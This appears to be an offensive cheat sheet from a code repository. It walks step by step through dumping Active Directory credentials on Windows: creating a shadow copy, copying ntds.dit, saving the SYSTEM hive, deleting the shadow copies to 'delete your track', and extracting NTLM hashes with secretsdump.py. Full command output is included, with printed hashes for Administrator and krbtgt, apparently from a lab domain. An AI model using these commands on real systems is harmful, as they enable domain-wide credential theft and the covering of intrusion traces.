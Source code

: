 # USE fucking CMD for these

create shadow copy for volume

	C:\Users\Administrator>vssadmin create shadow /for=c:
	vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
	(C) Copyright 2001-2013 Microsoft Corp.

	Successfully created shadow copy for 'c:\'
		Shadow Copy ID: {022db81c-6033-454e-8934-f75f7e430ad8}
		Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy4

copy ntds.dit file to somewhere else

	C:\Users\Administrator\Desktop>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy4\windows\ntds\ntds.dit .\ntds.dit
			1 file(s) copied.

Get SYSTEM file

	C:\Users\Administrator\Desktop>reg save HKLM\SYSTEM .\system
	The operation completed successfully.

	C:\Users\Administrator\Desktop>

Delete your track

	C:\Users\Administrator\Desktop>vssadmin delete shadows /for=c:
	vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
	(C) Copyright 2001-2013 Microsoft Corp.

	Do you really want to delete 2 shadow copies (Y/N): [N]? y

	Successfully deleted 2 shadow copies.
	

decrypt hashes

	┌──(kali㉿kali)-[~/Downloads]
	└─$ secretsdump.py -ntds ntds.dit -system system LOCAL                      
	Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

	[*] Target system bootKey: 0x235e0810a5761f3d036cca66ff1aa521
	[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
	[*] Searching for pekList, be patient
	[*] PEK # 0 found and decrypted: 52090a0153e17129ab94e2158169d6fc
	[*] Reading and decrypting hashes from ntds.dit 
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:c718f548c75062ada93250db208d3178:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	ODIN$:1001:aad3b435b51404eeaad3b435b51404ee:b48ecb6564135669a7305ccd7d48af9d:::
	krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c2d3b9268608fab2b14a8c78c36316aa:::

